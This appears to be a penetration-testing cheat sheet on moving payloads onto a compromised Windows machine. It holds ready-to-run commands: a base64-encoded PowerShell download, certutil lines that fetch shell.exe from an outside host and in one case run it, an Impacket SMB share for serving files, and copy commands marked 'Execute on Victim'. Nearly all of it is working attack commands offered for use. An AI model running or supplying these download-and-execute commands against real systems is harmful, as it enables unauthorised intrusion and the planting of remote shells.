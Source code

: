 ### Encode Command for Transfer
*Very helpful for chars that need to be escaped otherwise.*

```bash
$Command = '(new-object System.Net.WebClient).DownloadFile("http://192.168.0.1:80/ftp.txt","C:\Windows\temp\ftp.txt")' 
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command)) 
powershell.exe -NoProfile -encoded $Encoded
```

***

## Certutil

### Download
```bash
certutil.exe -urlcache -f http://192.168.0.1/shell.exe C:\Windows\Temp\shell.exe
```

### Download & Execute Python Command
```bash
os.execute('cmd.exe /c certutil.exe -urlcache -split -f http://192.168.0.1/shell.exe C:\Windows\Temp\shell.exe & C:\Windows\Temp\shell.exe')
```

***

## SMB

### Start Impacket SMB Server (With SMB2 Support)

```bash
impacket-smbserver -smb2support server_name /var/www/html
```

### List Drives (Execute on Victim)
```bash
net view \\192.168.0.1
```

### Copy Files (Execute on Victim)
```bash
copy \\192.168.0.1\server_name\shell.exe shell.exe
```

***

## PureFTP

### Install
```bash
apt-get update && apt-get install pure-ftpd
```
